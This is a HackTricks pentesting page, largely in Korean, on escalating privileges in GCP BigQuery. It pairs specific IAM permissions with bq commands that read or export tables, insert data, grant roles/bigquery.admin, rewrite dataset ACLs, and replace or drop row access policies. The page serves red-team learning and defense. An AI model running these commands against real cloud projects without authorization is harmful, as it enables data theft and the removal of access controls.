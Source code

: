 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

BigQuery에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

BigQuery 테이블에 저장된 정보를 읽으면 **민감한 정보**를 찾을 수 있습니다. 정보를 액세스하려면 필요한 권한은 **`bigquery.tables.get`**, **`bigquery.jobs.create`** 및 **`bigquery.tables.getData`**입니다:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### 데이터 내보내기

이것은 데이터를 접근하는 또 다른 방법입니다. **클라우드 스토리지 버킷에 내보내고** **정보가 담긴 파일을 다운로드**합니다.\
이 작업을 수행하려면 다음 권한이 필요합니다: **`bigquery.tables.export`**, **`bigquery.jobs.create`** 및 **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Insert data

Bigquery 테이블에 **신뢰할 수 있는 특정 데이터를 삽입**하여 **다른 곳의 취약점을 악용**할 수 있을지도 모릅니다. 이는 **`bigquery.tables.get`**, **`bigquery.tables.updateData`** 및 **`bigquery.jobs.create`** 권한으로 쉽게 수행할 수 있습니다:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

공격자는 이 권한을 악용하여 **BigQuery 데이터셋에 대한 추가 권한을 부여할 수 있습니다**:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

이 권한만으로 **ACL을 수정하여 BigQuery 데이터셋에 대한 액세스를 업데이트할 수 있습니다**.
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

공격자는 이 권한을 악용하여 **자신에게 추가 권한을 부여**할 수 있습니다.
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

문서에 따르면, 언급된 권한으로 **행 정책을 업데이트할 수 있습니다.**\
그러나 **cli `bq`를 사용하려면** 추가로 **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**가 필요합니다.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

행 정책 열거의 출력에서 필터 ID를 찾는 것이 가능합니다. 예:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
만약 **`bigquery.rowAccessPolicies.delete`**가 `bigquery.rowAccessPolicies.update` 대신 있다면, 정책을 삭제할 수도 있습니다:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
행 액세스 정책을 우회할 수 있는 또 다른 잠재적인 옵션은 제한된 데이터의 값을 변경하는 것입니다. `term`이 `Cfba`일 때만 볼 수 있다면, 테이블의 모든 레코드를 `term = "Cfba"`로 수정하십시오. 그러나 이는 bigquery에 의해 방지됩니다.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
